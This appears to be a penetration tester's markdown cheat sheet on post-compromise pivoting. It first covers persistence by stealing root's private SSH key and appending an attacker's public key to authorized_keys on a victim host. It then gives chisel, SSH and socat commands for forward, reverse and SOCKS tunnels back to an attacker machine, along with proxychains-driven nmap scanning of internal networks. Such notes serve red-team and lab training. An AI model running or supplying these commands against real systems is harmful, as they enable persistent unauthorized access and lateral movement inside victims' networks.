 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Persist

It is important to establish persistence before moving forward with actions on objectives.

### Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwarding


 <local-interface>:<local-port>:<remote-host>:<remote-port>

which does  port forwarding, sharing server's `<remote-host>:<remote-port>` on clients `<local-interface>:<local-port>`
 
* workflow

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now listener is on 192.168.1.15:8888 which forwards requests to attacker's localhost port 443. Useful to make attacker's external server available from victim within restricted network.

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

./chisel server -p 9903 --reverse on local 
./chisel client 10.10.xx.xx:9903 R:127.0.0.1:1280:172.16.xx.xx:80 &

This will open a listener on port 1280 on attackers localhost, and all connections to the target website on 172.16.xx.xx are going to be forwarded via pivot server at 10.10.xx.xx:9903

#### Dynamic reverse proxy

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

./chisel server -p 3333 --reverse --socks5

./chisel_lin client 172.16.40.5:3333 R:7777:socks

sudo vim /etc/proxychains4.conf

socks5 127.0.0.1 3333

proxychains nmap -F 10.185.10.0/24


### Using SSH


#### SSH Local Port Forwarding

* we need to forward packets to target via ssh client's port 4455 over sshserver to target's port 445. where 192.168.11.2 is a pivot point.

`ssh -N -L 0.0.0.0:4455:10.16.223.217:445 root@192.168.11.2`

Attacker can access remote victim port 445 locally on port 4455.

### Using Socat

#### Forward proxy with socat

`socat -ddd TCP-LISTEN:7777,fork TCP:10.1.11.213:3060`

This line is going to open a listener on 7777 and fork each new connection. New connections are then forwarded to `10.1.11.213:3060`.

This is especially useful if socat is installed on target but not possible to install chisel.

## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

